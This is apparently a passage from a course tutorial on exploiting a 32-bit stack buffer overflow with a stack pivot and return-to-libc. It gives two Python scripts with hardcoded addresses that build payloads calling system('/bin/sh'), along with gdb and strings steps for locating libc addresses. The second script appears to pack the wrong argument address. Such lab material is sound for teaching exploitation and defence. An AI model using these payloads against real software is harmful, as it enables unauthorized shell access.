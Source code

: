 ```python
# file: exploit32a.py
# output: e32a.in

import struct
import sys

buff_addr = 0xffffc720 
weird_addr = 0xffffc768-4

padding_len = weird_addr - buff_addr
padding = 'a'*padding_len

sys.stdout.write(padding + struct.pack("<I", buff_addr + 4) )
```

It is not enough to manipulate the stack pointer to point to point at a
location we control (i.e., the vulnerable buffer). We also need to make sure
that the new top of the stack is setup how system function is expecting (e.g.,
with the appropriate arguments).

The address of system is easy to find with a gdb command: `x system`, and the
dummy return address can be anything. But how do we get setup the command
argument? Specifically, we need the address of useful command string. We could
include such a string on the stack, either by putting in our vulnerable buffer
or throwing it in an environment variable, but we are going to take a different
approach that uses a string at an address that is easier to predict. Specifically, 
we want to find an existing string in libc; turn out the string "/bin/sh"
already exists in the libc code.

**Finding the "/bin/sh" string in libc.** First we find what version of libc is
loaded, where it is loaded in memory, and where the .SO file is on disk using
`info proc map`. Now we can search (outside of gdb) for the "/bin/sh" string in
the .SO file with `strings -a -tx /lib/i386-linux-gnu/libc-2.23.so | grep
/bin/sh`. We can add the offset of this string in the .SO file to the address
of libc in the process to get the actual address of the string.

Putting it all together we have our full attack:

```python

# file: exploit32b.py
# output: e32b.in
# Note: the actual stack addresses may change, so make sure to check the
# values

import struct
import sys

buff_addr = 0xffffc790 
weird_addr = 0xffffc7d8-4

system_addr = 0xf7e4eda0
dummy_ret = 'aaaa'
libc_addr = 0xf7e14000
command_addr = libc_addr + 0x15ba0b

payload = struct.pack("<I", system_addr) + dummy_ret + struct.pack("<I", libc_addr)


padding_len = weird_addr - buff_addr - len(payload)
padding = 'a'*padding_len


sys.stdout.write(payload + padding + struct.pack("<I", buff_addr + 4) )
sys.stdout.write('\n')
```